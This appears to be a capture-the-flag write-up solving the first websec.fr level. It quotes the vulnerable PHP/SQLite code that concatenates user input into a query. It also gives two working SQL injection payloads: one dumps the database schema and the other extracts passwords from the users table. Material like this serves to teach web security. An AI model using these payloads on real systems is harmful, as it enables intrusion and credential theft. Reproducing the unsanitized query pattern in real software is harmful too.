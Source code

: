 # Websec.fr writeup

In this blog we solve the levels hosted in [websec.fr](https://websec.fr/).

As the authors describe, it "is a wargame site providing various web-based challenges". 

The levels are divided in 4 (+1) categories: babysteps, easy, medium, hard and a bonus category.

I suggest to attempt the challenges on your own before reading the solutions.

Let's start. 

## level01 - babysteps

The web application employs PHP and SQLite. In fact, if we click on *This application on the bottom* we are redirected to */source.php* and here we can read the source code. 

Analyzing it, we immediately note the vulnerable line of the code: it lies on the *LevelOne::doQuery()* function. Specifically, no sanitization is executed on the user input. 

```
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; 
        $getUsers = $pdo->query($query); //[bob01: vulnerable line: no input sanitization]
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

As we know, each SQLite database contains a *schema table* that stores the schema for that database, i.e., *sqlite_schema* (sqlite_schema can have different name alternatives, see [link](https://www.sqlite.org/schematab.html)).

Then, by simply running an UNION query, namely:

```
-1 union select 1,sql from sqlite_master --
```

we get the following output:

![img1](/images/websec/img1.png?raw=true) 

Now, we know that the *users* table contains three columns, that are: id, username and password; we can then exploit the *GROUP_CONCAT()* function ([link](https://www.sqlitetutorial.net/sqlite-group_concat/) on how to use it):

```
-1 union select username,group_concat(password, ';') from users --
```

and get the flag:

![img2](/images/websec/img2.png?raw=true)
